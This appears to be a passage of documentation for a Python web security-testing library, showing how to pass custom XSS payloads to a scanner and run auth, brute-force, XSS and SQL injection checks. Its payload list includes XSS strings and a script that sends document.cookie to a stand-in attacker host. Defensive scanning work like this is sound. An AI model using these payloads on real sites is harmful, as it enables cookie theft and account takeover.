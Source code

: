## Advanced Features

### Custom XSS Payloads

```python
from security_testing.web.web_scanner import WebSecurityScanner

# Define custom XSS payloads
custom_payloads = [
    '<img src=x onerror=alert(document.domain)>',
    '<svg/onload=alert(document.cookie)>',
    'javascript:alert(document.domain)',
    '"><script>fetch("https://attacker.com/steal?cookie="+document.cookie)</script>',
    '<body onload=alert(document.domain)>'
]

# Initialize scanner with custom payloads
scanner = WebSecurityScanner(base_url="https://example.com")
results = scanner.scan_xss_vulnerabilities(
    urls=["https://example.com/search"],
    payloads=custom_payloads
)
```

### Comprehensive Security Assessment

```python
from security_testing.auth.auth_tester import AuthTester
from security_testing.web.web_scanner import WebSecurityScanner
from security_testing.api.api_tester import ApiSecurityTester
import json

def run_security_assessment(target_url):
    """Run a comprehensive security assessment on a target."""
    results = {
        "target": target_url,
        "timestamp": datetime.now().isoformat(),
        "auth_tests": {},
        "web_tests": {},
        "api_tests": {}
    }
    
    # Authentication tests
    auth_tester = AuthTester(base_url=target_url)
    results["auth_tests"]["login"] = auth_tester.test_login(
        endpoint="/login",
        username="testuser",
        password="password123"
    )
    results["auth_tests"]["brute_force"] = auth_tester.test_brute_force_protection(
        endpoint="/login",
        username="testuser",
        password="wrongpass"
    )
    
    # Web security tests
    web_scanner = WebSecurityScanner(base_url=target_url)
    results["web_tests"]["xss"] = web_scanner.scan_xss_vulnerabilities(
        crawl=True,
        max_urls=10
    )
    results["web_tests"]["sql_injection"] = web_scanner.scan_sql_injection(
        crawl=True,
```
